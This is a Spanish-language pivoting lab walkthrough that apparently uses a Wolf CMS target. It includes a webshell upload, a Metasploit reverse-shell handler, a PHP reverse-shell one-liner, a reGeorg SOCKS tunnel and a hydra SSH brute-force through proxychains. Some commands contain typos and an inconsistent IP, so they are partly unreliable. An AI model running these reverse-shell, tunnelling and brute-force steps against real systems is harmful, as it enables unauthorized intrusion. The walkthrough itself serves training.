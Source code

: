 
Vamos a ver el funcionamiento con un ejemplo:

host víctima: 192.143.107.3

El primer paso a realizar sera un escaner del host:

![[Pasted image 20250312092036.png]]

Parece que el servicio web del puerto 80 está siendo ejecutado con una tecnología llamada wolf cms. Si hacemos una búsqueda de exploits con ese nombre encontramos varios.

![[Pasted image 20250312092205.png]]

Tras realizar una búsqueda web se nos confirma que suele haber un panel de admin poniendo en la url "/?/admin/login".

![[Pasted image 20250312092341.png]]

Sabemos las credenciales pues es un lab de pivoting, así que nos las dan de serie:

User: robert
Pass: password1

Como hay un botón de subida de archivos, vamos a intentar subir una webshell ubicada en ``/usr/share/webshells/php/php-backdoor.php``.

![[Pasted image 20250312092916.png]]

Parece que está funcionando. Para conseguir una reverse shell vamos a utilizar metasploit

```bash
mfsconsole -q
use exploit/multi/handler
set payload php/reverse_php
set LHOST IP
exploit
```

En la web shell vamos a ejecutar el comando.

```
php -r '$sock=fspckopen("ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Con esto se nos debería activar una sesión en meterpreter y ya tendremos la reverse shell.

Si vemos el ``ipconfig`` de la reverse shell vemos que tiene una red interesante.

![[Pasted image 20250312093330.png]]

Desde la carpeta escritorio, en herramientas podemos ver la herramienta de reGeorg

![[Pasted image 20250312093421.png]]


La idea ahora es subir el tunnel al servidor víctima, para ello podemos utilizar el botón de upload de la propia web que tiene.


![[Pasted image 20250312093541.png]]

Una vez subido, creamos una nueva tab y ejecutamos.

```bash
python reGeorgSocksProxy.py -p 9050 -u http://182.143.107.3/public/tunnel.php
```

![[Pasted image 20250312093712.png]]

Desde ahora podemos abrir una nueva tab y realizar pruebas de conectividad al host2

```bash
proxychains nmap -sT -Pn host2
```


![[Pasted image 20250312093905.png]]

Como vemos que tiene ssh vamos a intentar hacer un ataque de fuerza bruta.

```bash
proxychains hydra -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt ssh://ip
```

![[Pasted image 20250312094127.png]]

